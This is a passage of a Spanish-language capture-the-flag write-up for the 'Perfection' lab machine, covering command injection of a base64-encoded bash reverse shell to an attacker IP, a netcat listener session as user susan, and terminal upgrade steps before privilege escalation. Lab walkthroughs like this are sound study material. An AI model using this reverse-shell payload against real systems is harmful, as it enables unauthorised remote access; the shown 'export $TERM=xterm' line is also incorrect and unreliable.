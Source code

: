 ## Explotación de vulnerabilidades

Habiendo conseguido ejecutar el payload anterior, el siguiente paso es inyectar comandos para establecer una reverse shell.

Codificamos la reverse shell en base64 y hacemos un URL encode al carácter "+" para que no se interprete como un espacio.

```shell
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.175/4321 0>&1"' | base64 | sed 's/\+/\%2b/'
```

Nos ponemos en escucha con netcat en el puerto indicado y ejecutamos el payload con el base64.

![Perfection 6](/assets/images/2024-05-18-Perfection/perfection_6.png)

Comprobamos que se ha establecido la conexión.

```shell
nc -nlvp 4321                                                           
listening on [any] 4321 ...
connect to [10.10.14.175] from (UNKNOWN) [10.10.11.253] 52358
bash: cannot set terminal process group (1009): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ pwd
pwd
/home/susan/ruby_app
susan@perfection:~/ruby_app$ whoami
whoami
susan
susan@perfection:~/ruby_app$
```

## Escalada de privilegios

Para tener una consola interactiva  y que por ejemplo detecte un ctrl.c hay que hacer un tratamiento de la tty. Ejecuto `script /dev/null -c bash`, hago ***ctrl+z***, , escribo ***"stty raw -echo; fg"***, introduzco ***"reset xterm"*** y doy un ***intro***. Con esto he reiniciado la configuración de la terminal.

La shell todavía no es interactiva del todo. Podemos ver que la variable de entorno $TERM tiene el valor dump y no xterm. Podemos arreglar esto de la siguiente forma. 

```shell
susan@perfection:~/ruby_app$ echo $TERM
dumb
susan@perfection:~/ruby_app$ export $TERM=xterm
```

La proporción de la consola no es correcta comparada con la terminal de mi kali. Miro el tamaño con `stty size`.
